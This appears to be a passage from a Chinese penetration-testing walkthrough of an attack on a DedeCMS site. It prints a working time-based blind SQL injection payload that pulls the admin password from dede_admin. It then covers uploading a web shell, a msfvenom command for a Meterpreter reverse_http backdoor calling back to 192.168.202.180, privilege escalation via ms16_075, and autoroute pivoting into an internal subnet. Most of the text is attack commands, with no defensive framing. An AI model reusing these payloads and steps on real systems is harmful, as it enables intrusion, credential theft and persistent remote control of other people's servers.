 相关 payload 使用时间盲注查询 amdin 密码：s=target+"/member

```
/mtypes.php?dopost=save&_FILES[mtypename][name]=.xxxx&_FILES[mtypename][type]=xxxxx&_FILES[mtypename][tmp_name][a'%20and%20`'`.``.mtypeid%20or%20if(ascii(substr((select%20pwd%20from%20dede_admin%20limit%201),"+s1+",1))%3d"+s2+",sleep(4),0)%20and%20mtypeid%3d1%23]=w&_FILES[mtypename][size]=.xxxx"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibhUFH0PKsXarLLhOVJUPFPoicL8mtrTT2PJfO6g3essFJHtVZj16TOXg/640?wx_fmt=png)

详细漏洞分析可参考：Dedecms20150618 注入 ·Manning23

密码破解得 admin7788，然后登上后台，上传一句话并连接:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibYKDpMIVXYiaJEKmnZrEWqJz9n69tU6IB1kqSpGDYnUyXLxjVvOJ9PBA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibibXQ9BfwtFPsWRIkh7TAe2RNd75LmHwibqiaiboveZBYFIp70NpTrCyMFA/640?wx_fmt=png)

可见一句话木马权限不够，传上 asp 大马，再执行相关命令：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib9ArbMkBdThqdhEVQpWicdY1YWm3lJncPpnk7YJWnlAZDuPugCPd4ExQ/640?wx_fmt=png)

使用 msf 工具集生成相关后门，

```
msfvenom -p windows/meterpreter/reverse_http lhost=192.168.202.180 lport=33444-f exe -o h33444.exe
```

，并设置监听：  

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibfYshAWjAWcLGg0Rp0ze3R08VVCgYvLzNeLK0XNMkPKzQ4k3TPVYbsQ/640?wx_fmt=png)

先用 asp 扫描可执行的相关目录，然后上传 msf 后门到相应目录：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibZBJicOTDdEKLGjUxOvuE2t2pH2laYHv5RgcDPiacPiaicnETwQHsZ808fQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibiaFBBA3PTIH2uSfIOIyGOKHNdydX0pq8VQLibIxv6jkUQhaqWiaMq2icbQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib58pPjqsa0KibTl59oYJuSHXJ2sjPfc8aVov3qib0xMh1X95vIfVS2ysg/640?wx_fmt=png)

使用 msf 自带的 post/multi/recon/local_exploit_suggester 模块进行漏洞查找，然后利用 ms_075 进行提权 useexploit/windows/local/ms16_075_reflection_juicy

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80Lib39yibZWMlwicl4KYGesQy1icdfCAyNruTZJEiaKrqo4Q3tY57PETHeIXIg/640?wx_fmt=png)

继续进行基本的信息收集，ipconfig：

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibqsLicyricYqeSDxDbxyl7EY14WdG3V9M7Eu37dMtq7B8dEzoaziaD1ibcQ/640?wx_fmt=png)

执行 runget_local_subnets，存在两个网段:

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ADPmHFz2qUd6yribKia4q80LibZKONMT9XOVTzheNBwvV2kibOiaFaovWwG2aDCqS7Q9UhNxspadWvgGKg/640?wx_fmt=png)

run autoroute -s 10.10.10.0/24

run autoroute -d -s 10.10.10.0/24 // 删除网段
